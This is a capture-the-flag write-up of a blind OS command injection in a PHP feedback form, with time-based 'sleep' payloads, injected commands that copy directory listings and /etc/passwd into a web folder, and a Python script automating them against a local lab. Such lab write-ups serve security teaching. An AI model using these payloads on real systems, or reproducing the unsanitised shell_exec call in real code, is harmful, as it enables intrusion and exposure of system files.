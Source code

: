 # Blind OS Command Injection with Output Redirection - Writeup

## Challenge Overview

This challenge presents a blind OS command injection vulnerability in a PHP web application. The objective is to confirm the vulnerability and then extract the content of the `/etc/passwd` file.

## Vulnerability Analysis

### Location
The vulnerability is located in the `feedback.php` file:

```php
$output = shell_exec("/bin/sh -c \"$email\" 2>&1");
```

The `$email` parameter is directly concatenated into a shell command without validation.

### Vulnerability Type
- **Blind OS Command Injection**: Command output is not returned in the response
- **Time-based exploitation**: Use of delays to confirm execution

## Exploitation

### Step 1: Vulnerability Confirmation

**Test payload with delay:**
```
test@example.com; sleep 5
```

**Result:** 5-second delay observed, confirming execution of arbitrary commands.

### Step 2: Directory Exploration

**List directory contents:**
```
test@example.com; ls -la > /var/www/html/images/directory_contents.txt
```

**Access the file:**
```
http://localhost:3206/images/directory_contents.txt
```

### Step 3: Extraction of /etc/passwd Content

**Payload to extract /etc/passwd:**
```
test@example.com; cat /etc/passwd > /var/www/html/images/passwd.txt
```

**File access:**
```
http://localhost:3206/images/passwd.txt
```

**Flag:** The content of `/etc/passwd` is the flag of this challenge. Once extracted and accessible via web browser, this constitutes the successful completion of the challenge.

## Automation Script

```python
import requests
import time

def test_injection(payload):
    data = {
        'name': 'Test',
        'email': payload,
        'message': 'Test message'
    }
    
    start_time = time.time()
    response = requests.post('http://localhost:3206/feedback.php', data=data)
    end_time = time.time()
    
    return end_time - start_time

# Delay test to confirm vulnerability
delay = test_injection('test@example.com; sleep 5')
print(f"Observed delay: {delay} seconds")

# List directory contents
test_injection('test@example.com; ls -la > /var/www/html/images/directory_contents.txt')
print("Directory contents extracted to directory_contents.txt")

# Extraction of /etc/passwd (the flag)
extraction_payload = 'test@example.com; cat /etc/passwd > /var/www/html/images/passwd.txt'
test_injection(extraction_payload)
print("Flag (/etc/passwd content) extracted to passwd.txt")
```

## Results Obtained

### Created Files
- **directory_contents.txt**: Contents of the current directory
- **passwd.txt**: Content of `/etc/passwd` accessible via `http://localhost:3206/images/passwd.txt` (this is the flag)

### Security Metrics
- **Normal response time**: < 1 second
- **Injection detected**: > 5 seconds with `sleep`
- **Successful exploitation**: Content of `/etc/passwd` accessible via redirection

---

*This writeup demonstrates the exploitation of the blind OS command injection vulnerability to extract the content of /etc/passwd via output redirection.* 